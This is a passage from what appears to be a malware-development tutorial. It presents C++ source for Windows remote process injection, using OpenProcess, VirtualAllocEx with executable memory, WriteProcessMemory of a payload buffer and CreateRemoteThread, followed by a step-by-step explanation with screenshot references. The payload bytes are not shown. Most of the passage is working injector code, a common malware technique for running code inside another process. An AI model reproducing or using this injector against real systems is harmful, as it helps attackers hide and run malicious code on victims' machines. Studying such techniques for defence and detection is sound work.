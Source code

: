 ```cpp
int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, 
  my_payload_len, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, 
  my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, 
  NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

First you need to get the PID of the process, you could enter this PID yourself in our case. Next, open the process with [OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) function provided by `Kernel32` library:   
![open process](./images/6/2021-09-19_00-16.png){width="75%"}

Next, we use `VirtualAllocEx` which is allows to you to allocate memory buffer for remote process **(1)**:

![injection 5](./images/6/2021-09-19_00-31.png){width="75%"}
